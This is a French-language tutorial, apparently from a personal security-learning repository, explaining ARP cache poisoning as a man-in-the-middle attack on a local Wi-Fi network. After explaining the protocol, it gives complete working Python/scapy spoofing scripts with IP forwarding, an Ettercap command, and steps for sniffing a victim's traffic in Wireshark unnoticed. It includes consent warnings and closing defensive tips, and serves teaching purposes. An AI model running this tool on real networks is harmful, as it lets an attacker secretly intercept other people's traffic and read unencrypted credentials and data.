

<!-- début résumé -->
- ARP spoofing : attaque sur un réseau wifi
- Niveau : intermédiaire

Rappel : Il faut avoir l'accord de la personne cible et de l'administrateur réseau pour réaliser un ARP spoofing. Il faut s'en tenir à des pratiques éthiques et de ne pas utiliser ses connaissances pour causer des dommages ou enfreindre la loi.

## ARP spoofing : un type d'attaque MITM

L'ARP spoofing (ARP poisoning, ARP cache poisoning) est une attaque de type *Man In The Middle* (MITM). Sur un réseau local (LAN), le but de ce type d'attaque est de se placer entre la cible et le router. Ainsi, toutes les requêtes envoyées par la cible pour accéder à internet (qui transite normalement par le router), passeront à la machine de l'attaquant. Souvent, l'attaquant redirige ensuite le trafic vers le router qui envoie les requête de l'utilisateur sur internet. L'attaquant agit comme un intermédiaire, et peut alors espionner tout le trafic réseau de la machine cible.


En particulier, l'ARP cache poisoning consiste à utiliser une faille du protocole ARP afin se faire passer pour le router auprès de la machine cible.

## ARP spoofing : protocole ARP

### Définition

ARP (Address Resolution Protocol) est un protocole utilisé pour résoudre les adresses IP en adresses MAC (Media Access Control) dans les réseaux locaux. En effet, dans un réseau local les machines communiquent entre elles en utilisant les adresses MAC, et non les adresses IP. Pourquoi cela ? Pour plusieurs raisons en fait.

Les adresses MAC sont plus efficaces et plus fiables que les adresses IP : les adresses MAC sont des adresses physiques, qui sont uniques et qui ne changent pas, contrairement aux adresses IP qui peuvent être dynamiques et qui peuvent changer (cf le protocole [DHCP](https://fr.wikipedia.org/wiki/Dynamic_Host_Configuration_Protocol)). Les adresses MAC sont stockées sur les puces réseau des appareils et sont utilisées pour communiquer au niveau de la couche 2 (couche liaison de données) du modèle OSI. Donc en utilisant l'adresse MAC pour communiquer, les machines évitent les problèmes de résolution d'adresses qui peuvent se produire lorsque les adresses IP sont dynamiques ou lorsque des appareils sont déplacés d'un sous-réseau à un autre.

De plus, L'utilisation des adresses MAC permet aux machines de communiquer directement entre elles sur le réseau local sans avoir à passer par un serveur de résolution d'adresses ou un routeur pour déterminer l'adresse physique de la machine destinataire. Cela permet de réduire la charge sur les routeurs et les serveurs, et d'éviter de surcharger le réseau.

### Étapes de communication

Lorsque vous envoyez un paquet à une machine, il faut d'abord résoudre son adresse MAC.

Pour résoudre une adresse MAC d'un autre appareil sur le même réseau local, une machine envoie des requêtes ARP en broadcast (à toutes les machines du réseau) et demande : "A qui correspond l'adresse IP 192.168.0.13 ? Dites le à 192.168.0.1", et la machine ayant cette adresse répond : "À moi, 192.168.0.13, voici mon adresse MAC : 5E:FF:56:A2:AF:15".


Ensuite, son adresse mac est enregistré dans votre table ARP, contenant toutes les adresses IP et adresses MAC connues. Par exemple :

|  IP address    |    MAC address   |
|:-:    |:-:    |
|  192.168.0.1    |    2E:A0:12:B2:A6:87   |
|  192.168.0.13    |    5E:FF:56:A2:AF:15   |
|  192.168.0.15    |    6C:A4:36:B7:D6:31   |

Ainsi, à chaque nouvelle requête à cette IP, plus besoin de faire de requête ARP pour résoudre son adresse MAC.

Dans votre terminal :

```bash
# Pour visualisez votre table ARP :
arp -a
```

### Faiblesse du protocole

La principale faiblesse du protocole ARP est l'absence de vérification d'authenticité : les paquets ARP ne sont pas chiffrés et ne contiennent pas de mécanisme d'authentification, ce qui signifie qu'ils peuvent être facilement falsifiés.

## ARP spoofing : exploitation (ARP cache poisoning)

### Concept

On considère  192.168.0.1 comme le router, 192.168.0.13 comme la machine cible, 192.168.0.15 comme l'attaquant.

On peut donc envoyer un requête ARP à la machine cible. Requête ARP vers la machine cible : "l'adresse IP : 192.168.0.1 correspond à l'adresse MAC : 6C:A4:36:B7:D6:31". C'est le principe de l'attaque ARP cache poisoning. Dans la table ARP de la machine cible, on vient de modifier l'entrée du router (192.168.0.1) et de remplacer l'adresse MAC du router par l'adresse MAC (6C:A4:36:B7:D6:31) de l'attaquant. On va faire la même chose pour le router, pour que toutes les requêtes du router vers la machine cible transitent par l'attaquant. Requête ARP vers le router : "l'adresse IP : 192.168.0.13 correspond à l'adresse MAC : 6C:A4:36:B7:D6:31".


Photo par [Dharmil Chhadva](https://levelup.gitconnected.com/man-in-the-middle-attack-part-1-arp-spoofing-6f5b174dec59).

### Implémentation

**Note** : macOS possède une fonctionnalité intégrée appelée "ARP cache validation" qui vise à protéger contre les attaques d'ARP spoofing en vérifiant la validité des entrées dans la table ARP. Cette attaque n'a pas fonctionné sur mes appareils macOS / iOS. Cependant, elle a fonctionné sur des windows / Linux.

On va utiliser Python et la bibliothèque [scapy](https://scapy.net/) qui permet de manipuler les paquets.

On va d'abord créer une fonction qui renvoie l'adresse MAC de l'IP demandé. Cela se fait en envoyant des paquets ARP en broadcast (ff:ff:ff:ff:ff:ff).

```python
import scapy.all as scapy
import time
import argparse

def get_mac(ip):
    arp_req_frame = scapy.ARP(pdst = ip)
    broadcast_ether_frame = scapy.Ether(dst = "ff:ff:ff:ff:ff:ff")
    broadcast_ether_arp_req_frame = broadcast_ether_frame / arp_req_frame
    answered_list = scapy.srp(broadcast_ether_arp_req_frame, timeout = 1, verbose = False)[0]
    return answered_list[0][1].hwsrc
```

Grâce à la fonction spoof, on envoie un packet ARP qui va changer le cache ARP de machine cible. En effet, `scapy.ARP(op = 2, pdst = target_ip, hwdst = target_mac, psrc = spoof_ip)` permet d'envoyer un paquet à la machine ayant l'IP `target_ip` et de remplacer, dans sa table ARP à la ligne `spoof_ip`, l'adresse mac réel par notre adresse MAC.

```python
# Our mac address is sent automatically in an ARP packet, so we don't need to precise hwsrc=our_mac in scapy.ARP
def spoof(target_ip, spoof_ip):
    target_mac = get_mac(target_ip)
    spoof_packet = scapy.ARP(op = 2, pdst = target_ip, hwdst = target_mac, psrc = spoof_ip)
    scapy.send(spoof_packet, verbose = False)
```

On fait une fonction restore pour rétablir les tables ARP initiales après avoir fini le spoofing.

```python
def restore(source_ip, destination_ip):
    source_mac = get_mac(source_ip)
    destination_mac = get_mac(destination_ip)
    restore_packet = scapy.ARP(op = 2, pdst = destination_ip, hwdst = destination_mac, psrc = source_ip, hwsrc = source_mac)
    scapy.send(restore_packet, count =1, verbose = False)
```

On ajoute argparse pour pouvoir parser des arguments en ligne de commande et on fait la boucle permettant de lancer l'ARP cache poisoning. `target_ip` correspond à l'IP de la machine cible et `gateway_ip` correspond à l'IP du router.

Le code entier donne :

```python
import scapy.all as scapy
import time
import argparse

def get_args():
    parser = argparse.ArgumentParser()
    parser.add_argument("-t", "--target", dest = "target_ip", help = "IP Address of the target.")
    parser.add_argument("-g", "--gateway", dest = "gateway_ip", help = "IP Address of the Gateway.")
    options = parser.parse_args()
    if not options.target_ip:
        #Code to handle if an IP Address of the target is not specified.
        parser.error("[-] Please specify an IP Address of the target machine, use --help for more info.")
    elif not options.gateway_ip:
        #Code to handle if an IP Address of the gateway is not specified.
        parser.error("[-] Please specify an IP Address of the gateway, use --help for more info.")
    return options

def get_mac(ip):
    arp_req_frame = scapy.ARP(pdst = ip)
    broadcast_ether_frame = scapy.Ether(dst = "ff:ff:ff:ff:ff:ff")
    broadcast_ether_arp_req_frame = broadcast_ether_frame / arp_req_frame
    answered_list = scapy.srp(broadcast_ether_arp_req_frame, timeout = 1, verbose = False)[0]
    return answered_list[0][1].hwsrc

def spoof(target_ip, spoof_ip):
    target_mac = get_mac(target_ip)
    spoof_packet = scapy.ARP(op = 2, pdst = target_ip, hwdst = target_mac, psrc = spoof_ip)
    scapy.send(spoof_packet, verbose = False)
    
def restore(source_ip, destination_ip):
    source_mac = get_mac(source_ip)
    destination_mac = get_mac(destination_ip)
    restore_packet = scapy.ARP(op = 2, pdst = destination_ip, hwdst = destination_mac, psrc = source_ip, hwsrc = source_mac)
    scapy.send(restore_packet, count =1, verbose = False)
  
packets_sent = 0

options = get_args()
target_ip = options.target_ip
gateway_ip = options.gateway_ip

try:
    while True:
        spoof(target_ip, gateway_ip)
        spoof(gateway_ip, target_ip)
        packets_sent += 2
        print("\r[+] Packets Sent: {}".format(packets_sent), end = "")
        time.sleep(2)
        
except KeyboardInterrupt:
    print("\n[-] Detected Ctrl + C..... Restoring the ARP Tables..... Be Patient")
    restore(target_ip, gateway_ip)
    restore(gateway_ip, target_ip)
```

### Tests et finitions

Tester seulement sur des appareils et des réseaux wifi dont vous avez l'autorisation. ARP spoofing est certes intrusif sur l'appareil cible, mais peut aussi saturer le réseau local. Également, vous pouvez activer des systèmes de détection d'intrusion.

Pour le test, nous allons utiliser une machine virtuel comme appareil cible. Vous pouvez aussi utliser l'appareil de votre choix. Je vous renvoie au MON [pentest](../pentest) pour voir comment set-up la VM (utiliser l'OS de votre choix). Il faut par contre configurer le réseau sur *connection par pont* (cliquez sur une VM puis --> config --> réseau --> accès par pont).

On peut regarder les tables ARP sur nos machines (attaquant et cible) avec `arp -a`. Sur la machine cible :

|  IP address    |    MAC address   |
|:-:    |:-:    |
|  192.168.0.1    |    2E:A0:12:B2:A6:87   |
|  192.168.0.13    |    5E:FF:56:A2:AF:15   |
|  192.168.0.15    |    6C:A4:36:B7:D6:31   |

Lancer la commande suivante pour lancer l'arp spoofing (-t : target ; -g : gateway) :

```python
python3 arp_MITM.py -t 192.168.0.13 -g 192.168.0.1
```

Si tout se passe bien, les packets sont transmis. En refaisant la commande `arp -a` sur la VM cible:

|  IP address    |    MAC address   |
|:-:    |:-:    |
|  192.168.0.1    |    6C:A4:36:B7:D6:31   |
|  192.168.0.13    |    5E:FF:56:A2:AF:15   |
|  192.168.0.15    |    6C:A4:36:B7:D6:31   |

Voilà, maintenant tous les paquets provenant de la machine cible passent par l'attaquant. On peut utiliser des outils de sniffing de paquets pour espionner les paquets de l'utilisateur. On pourra voir toutes les ressources auxquelles il accède, et si les paquets ne sont pas chiffrés, on peut voir les données qui transitent.

En utilisant wireshark, on voit que la victime essaye de se connecter au serveur DNS de google (8.8.8.8)  : 

On voit que les paquets ICMP de la victime n'ont pas de réponse. A ce stade, tous les paquets de la cible passent par l'attaquant. Mais l'attaquant ne fait rien de ses paquets : il faut rediriger ces paquets vers internet, et que tous les paquets à destination de la cible lui parviennent en retour. L'attaque sera alors réussi.

On rajoute les modules os et signal, le paramètre `scapy.conf.iface = "en0"` (dépendant de votre configuration par pont, à voir dans VMware), dans le try les instructions pour autoriser le port forwarding, et dans le except les instructions pour retourner à l'état initial. Voici le fichier final :

```python
import scapy.all as scapy
import time
import argparse
import os
import signal

def get_args():
    parser = argparse.ArgumentParser()
    parser.add_argument("-t", "--target", dest = "target_ip", help = "IP Address of the target.")
    parser.add_argument("-g", "--gateway", dest = "gateway_ip", help = "IP Address of the Gateway.")
    options = parser.parse_args()
    if not options.target_ip:
        #Code to handle if an IP Address of the target is not specified.
        parser.error("[-] Please specify an IP Address of the target machine, use --help for more info.")
    elif not options.gateway_ip:
        #Code to handle if an IP Address of the gateway is not specified.
        parser.error("[-] Please specify an IP Address of the gateway, use --help for more info.")
    return options

def get_mac(ip):
    arp_req_frame = scapy.ARP(pdst = ip)
    broadcast_ether_frame = scapy.Ether(dst = "ff:ff:ff:ff:ff:ff")
    broadcast_ether_arp_req_frame = broadcast_ether_frame / arp_req_frame
    answered_list = scapy.srp(broadcast_ether_arp_req_frame, timeout = 1, verbose = False)[0]
    return answered_list[0][1].hwsrc
  
def spoof(target_ip, spoof_ip):
    target_mac = get_mac(target_ip)
    spoof_packet = scapy.ARP(op = 2, pdst = target_ip, hwdst = target_mac, psrc = spoof_ip)
    scapy.send(spoof_packet, verbose = False)
    
def restore(source_ip, destination_ip):
    source_mac = get_mac(source_ip)
    destination_mac = get_mac(destination_ip)
    restore_packet = scapy.ARP(op = 2, pdst = destination_ip, hwdst = destination_mac, psrc = source_ip, hwsrc = source_mac)
    scapy.send(restore_packet, count =1, verbose = False)
  
packets_sent = 0

options = get_args()
target_ip = options.target_ip
gateway_ip = options.gateway_ip
scapy.conf.iface = "en0"

try:
    print("[*] Enabling IP forwarding")
    #Enable IP Forwarding on a mac
    os.system("sudo sysctl -w net.inet.ip.forwarding=1")
    while True:
        spoof(target_ip, gateway_ip)
        spoof(gateway_ip, target_ip)
        packets_sent += 2
        print("\r[+] Packets Sent: {}".format(packets_sent), end = "")
        time.sleep(2)
    
        
except KeyboardInterrupt:
    print("\n[-] Detected Ctrl + C..... Restoring the ARP Tables..... Be Patient")
    restore(target_ip, gateway_ip)
    restore(gateway_ip, target_ip)
    print("[*] Disabling IP forwarding")
    #Disable IP Forwarding on a mac
    os.system("sudo sysctl -w net.inet.ip.forwarding=0")
    #kill process on a mac
    os.kill(os.getpid(), signal.SIGTERM)
```

**Note** : Désactivez votre VPN, certains bloquent la retransmission de paquets.

L'attaque est maintenant réussi : en plus d'avoir modifier le cache ARP de la victime, vous transferez tous ses paquets vers leur destinataire, et renvoyer la réponse. Vous pouvez observer les connexions dans Wireshark. La cible ne se rendra compte de rien :  tous ses paquets sont transférés normalement de son point de vue.

Bien sûr, si la cible transfère ses paquets en utilisant TLS (ex: https), les paquets seront chiffrés. Mais vous pourrez tout de même observer à quel ressource la cible accède, ce qui est un probème sérieux de confidentialité. Et si le protocole n'est pas sécurisé, vous pourrez lire tous les messages en clair...

Par exemple, pour des paquets transmis avec FTP :


**Ps** : avec une machine virtuelle, vos paquets auront de toute façon été capté par wireshark, car ils passent par la carte réseau de votre machine hôte. Cette démonstration sur machine virtuelle est un peu artificielle mais permet de bien comprendre le processus. Elle serait tout à fait similaire sur un appareil réel.

## Avec Ettercap

Vous avez un tuto sur Ettercap et Wireshark assez facile [ici](https://www.youtube.com/watch?v=-rSqbgI7oZM&ab_channel=NetworkChuck).

[Ettercap](https://en.wikipedia.org/wiki/Ettercap_(software)) est un logiciel de sécurité réseau qui permet d'intercepter le trafic réseau. Il permet également de faire des attaques de type arp spoofing, sans avoir à implémenter quoi que ce soit. Avec la commande suivante :

```sudo ettercap -T -S -i en0 -M arp:remote /<gateway-ip>// /<target-ip>//```

-T : text
-S : sans SSL
-i : précisez votre interface réseau
-M : mode

Tout le trafic est intercepté et redirigé ; vous pouvez observer tous les paquets simplement dans wireshark (fiters : ip.addr = <*target-ip*> ; http ; TLS... amusez-vous !).

## Pour se protéger

Vous êtes très vulnérable sur un réseau wifi public. Quelques recommandations : 

- Utilisez un VPN, vos paquets seront chiffrés.
- Ne partagez pas votre code wifi à n'importe qui, et sécurisez votre réseau wifi.
- Certains anti-virus / logiciels de sécurité bloquent les paquets ARP douteux.
- Il existe des IDS bloquant les paquets ARP douteux.
- ...


*Surtout, ne pratiquez pas sans l'accord de la cible et de l'administrateur réseau !*

## Sources

- Dharmil Chhadva : Man In The Middle Attack (MITM) Part 1 — ARP Spoofing : <https://levelup.gitconnected.com/man-in-the-middle-attack-part-1-arp-spoofing-6f5b174dec59>
- rameshaditya2001 : Python – How to create an ARP Spoofer using Scapy? : <https://www.geeksforgeeks.org/python-how-to-create-an-arp-spoofer-using-scapy/>
- Florian Burnel : Virtualisation – Les types de connexion au réseau : <https://www.it-connect.fr/virtualisation-les-types-de-connexion-au-reseau#IV_Le_type_Host-Only>
- Ismail Akkila : Black Hat Python — ARP Cache Poisoning with Scapy : <https://ismailakkila.medium.com/black-hat-python-arp-cache-poisoning-with-scapy-7cb1d8b9d242>
